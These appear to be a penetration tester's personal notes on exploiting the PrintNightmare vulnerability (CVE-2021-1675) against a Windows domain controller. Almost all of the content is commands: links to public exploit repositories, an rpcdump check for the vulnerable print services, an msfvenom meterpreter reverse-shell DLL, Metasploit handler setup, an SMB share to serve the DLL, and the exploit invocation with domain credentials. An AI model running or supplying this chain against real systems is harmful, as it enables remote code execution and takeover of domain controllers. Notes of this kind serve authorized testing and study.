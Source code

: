 CVE-2021-1675

https://github.com/cube0x0/CVE-2021-1675 (RCE)

https://github.com/calebstewart/CVE-2021-1675 (PrivESc)

```bash - kali
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/rpcdump.py
```

```bash - kali
python3 rpcdump.py @$DOMAIN_CONTROLLER_IP | egrep 'MS-RPRN|MS-PAR'
```

==This means VULNERABLE==
![[Pasted image 20211230214053.png | 1000]]

[[Impacket#Latest Version]]

```bash - kali
wget https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/CVE-2021-1675.py
```

![[1._Reverse Shells (WIN)#MSFVenom#DLL]]

```bash - Kali
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$KALI LPORT=443 -f dll > shell.dll
```

```bash - Kali
sudo msfdb run
```

```metasploit - Kali
use multi/handler
```

```metasploit - Kali
options
```

```metasploit - Kali
set payload windows/x64/meterpreter/reverse_tcp
```

```metasploit - Kali
set LPORT 443
```

```metasploit - Kali
set LHOST $KALI
```

~~[[rlwrap]]~~

```bash
smbserver.py share `pwd`
```

```python
python3 CVE-2021-1675.py $DOMAIN_NAME/$USER:$PASSWORD@$DOMAIN_CONTROLLER_IP'\\<$KALI>\share\shell.dll'
```

IF error occurs, run smbserver.py with smb2 support as shown below:

```bash
smbserver.py share `pwd` -smb2support
```

